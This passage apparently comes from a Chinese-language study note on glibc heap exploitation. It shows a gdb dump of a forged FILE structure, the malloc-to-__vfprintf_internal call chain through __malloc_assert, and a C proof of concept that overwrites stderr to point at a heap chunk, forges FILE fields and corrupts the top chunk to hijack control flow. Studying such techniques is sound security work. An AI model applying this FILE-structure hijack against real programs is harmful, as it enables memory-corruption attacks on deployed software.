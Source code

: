 ```python
  _markers = 0x0,
  _chain = 0x0,
  _fileno = 0,
  _flags2 = 0,
  _old_offset = 0,
  _cur_column = 0,
  _vtable_offset = 0 '\000',
  _shortbuf = "",
  _lock = 0x5555555581b0,  # 可写地址
  _offset = 0,
  _codecvt = 0x0,
  _wide_data = 0x0,
  _freeres_list = 0x0,
  _freeres_buf = 0x0,
  __pad5 = 0,
  _mode = 0,
  _unused2 = '\000' <repeats 19 times>
}
```

‍

ok 然后继续

​`malloc`​ -> `_int_malloc`​ -> `sysmalloc`​ (然后触发 `__malloc_assert`​)

​`__malloc_assert`​ -> `__fxprintf`​ -> `locked_vfxprintf`​ -> `__vfprintf_internal`​

‍

### 3. __vfprintf_internal -> _IO_vtable_check

‍

```c
#include<stdio.h>
#include<stdlib.h>


int main(){
	size_t puts_addr = &puts;
	size_t libc_base = puts_addr - 528080;
	size_t*stderr_   = libc_base + 0x21a860; // p &stderr


	printf("libc_base = %p",&libc_base);
	printf("stderr_   = %p",&stderr_);

	size_t *ptr = malloc(0x500);
	size_t heap_addr = ptr - 0x2a0;
	size_t _F = libc_base + 2187456;
	* stderr_ = ptr - 2;

	ptr[0x508/8] =  0x55;
	ptr[0x78/8] =  heap_addr;
	ptr[0x90/8] =  _F;
	ptr[0xb0/8] =  1;

	//ptr[(0x78+0x38)/8] = 0;

	malloc(0x500);

	return 0;
}
```

